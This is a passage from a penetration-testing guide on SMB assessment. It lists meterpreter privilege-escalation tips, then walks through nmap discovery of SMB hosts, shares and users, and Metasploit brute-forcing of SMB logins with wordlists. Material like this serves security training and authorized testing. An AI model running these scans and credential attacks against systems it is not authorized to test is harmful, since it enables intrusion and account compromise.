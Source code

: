 **Solutions:**
- Check user privileges with getuid before attempting shell access
- Use getsystem for privilege escalation when needed
- Rely on meterpreter built-in commands when shell access fails
- Try execute command with interactive flags for shell access

---

## 🔗 Using SMB Exploitation With Other Tools

### **🎯 Complete Assessment Workflow: Nmap → Metasploit → Post-Exploitation Tools**

This is the most effective workflow for comprehensive SMB security assessment.

#### **Step 1: Network Discovery and Service Identification**
```bash
# Comprehensive network discovery
nmap -sS -p 139,445 192.168.1.0/24
# Identify all systems with SMB services

# Detailed service enumeration
nmap -sC -sV -p445 target_list.txt
# Service versions and default script scanning

# SMB-specific enumeration
nmap --script smb-enum-shares,smb-enum-users,smb-protocols target_ip
# Comprehensive SMB information gathering
```

**Intelligence Gathering Benefits:**
- **Network Mapping:** Identify all SMB-enabled systems in environment
- **Service Fingerprinting:** Determine exact SMB versions and configurations
- **Share Enumeration:** Discover accessible file shares and permissions
- **User Discovery:** Find valid usernames for credential attacks

**Related Guide:** See [smb-enumeration-complete.md](../05-service-enumeration/smb-enumeration-complete.md) for detailed SMB enumeration techniques.

#### **Step 2: Systematic Credential Assessment**
```bash
# Import nmap results into Metasploit
msfconsole -q
db_import nmap_results.xml
hosts
services

# Targeted credential attacks based on discoveries
use auxiliary/scanner/smb/smb_login
set RHOSTS file:/tmp/smb_targets.txt
set USER_FILE /usr/share/wordlists/custom_users.txt
set PASS_FILE /usr/share/wordlists/passwords.txt
set THREADS 10
exploit

# Document successful credentials for team use
creds
# View discovered credentials database
```
